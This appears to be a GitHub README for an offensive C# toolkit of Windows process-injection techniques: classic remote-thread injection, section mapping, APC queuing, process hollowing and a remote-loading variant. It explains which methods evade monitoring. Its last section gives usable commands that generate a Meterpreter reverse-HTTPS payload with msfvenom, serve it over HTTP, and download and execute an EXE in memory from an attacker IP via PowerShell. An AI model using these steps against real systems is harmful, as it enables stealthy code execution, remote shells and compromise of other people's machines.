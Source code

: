 ## **NativeProcInjection.cs**

This technique demonstrates classic process injection using Native Windows API functions. It creates a remote process (usually `notepad.exe`), allocates memory in it, writes shellcode, and creates a remote thread to execute the payload.

**High-Level Steps:**
1. Launch a target process in suspended or running state (e.g., `CreateProcess`).
2. Allocate memory in the remote process using `VirtualAllocEx`.
3. Write the shellcode to the allocated memory using `WriteProcessMemory`.
4. Create a new thread in the remote process pointing to the shellcode with `CreateRemoteThread`.

## **NtMapInjection.cs**

This method utilizes NT native APIs to create a shared memory section and map it into both the local and remote process. It’s stealthier than the classic method and avoids using easily-monitored APIs like `WriteProcessMemory`.

**High-Level Steps:**
1. Create a memory section using `NtCreateSection`.
2. Map the section into the local process using `NtMapViewOfSection`.
3. Copy the shellcode into the local view.
4. Map the same section into the remote process using `NtMapViewOfSection`.
5. Create a remote thread in the target process with `CreateRemoteThread` or equivalent to execute the code.

## **NtQueueApc.cs**

This method uses Asynchronous Procedure Calls (APCs) to queue execution of shellcode in the context of a thread in a remote process. It is often used in combination with other techniques to delay execution or avoid detection.

**High-Level Steps:**
1. Open a handle to the target process and a thread within it.
2. Allocate memory in the target process and write the shellcode using `VirtualAllocEx` and `WriteProcessMemory`.
3. Use `NtQueueApcThread` to queue a call to the shellcode in the remote thread.
4. Resume the thread if it's suspended, so the APC can be delivered and executed.

## **procHollow.cs**

An advanced injection technique where a legitimate process is started in a suspended state, its memory is unmapped, and malicious code is written into it—effectively "hollowing out" the original process. The thread is then resumed, executing the injected payload under the guise of a legitimate executable.

**High-Level Steps:**

1. Create a target process (e.g., svchost.exe) in a suspended state using CreateProcess with CREATE_SUSPENDED.
2. Retrieve the base address of the main module using NtQueryInformationProcess and ReadProcessMemory.
3. Unmap the memory of the original executable using NtUnmapViewOfSection.
4. Allocate memory in the remote process using VirtualAllocEx.
5. Write the malicious executable (often a PE file) into the allocated memory using WriteProcessMemory.
6. Update the remote process’s context (entry point) with SetThreadContext.
7. Resume the main thread with ResumeThread to execute the injected payload.

## **TryHarder.cs**

Another Process Injection technique that loads the shellcode remotely.<br>
The idea of this technique is by `Sektor 7` and ported to C# by [saulgoodman](https://github.com/saulg00dmin).

Create Shellcode using msfvenom:<br>
- `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw EXITFUNC=thread -o shellcode.bin`

Serve the `shellcode.bin` with python server: `python3 -m http.server 80`

Convert the EXE into a byte array:<br>
- `$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.190/Tryharder.exe')`

Load the EXE into memory:<br>
- `$assem = [System.Reflection.Assembly]::Load($data)`

Invoke its entry point:
- `$assem.EntryPoint.Invoke($null, @([string[]]@()))`
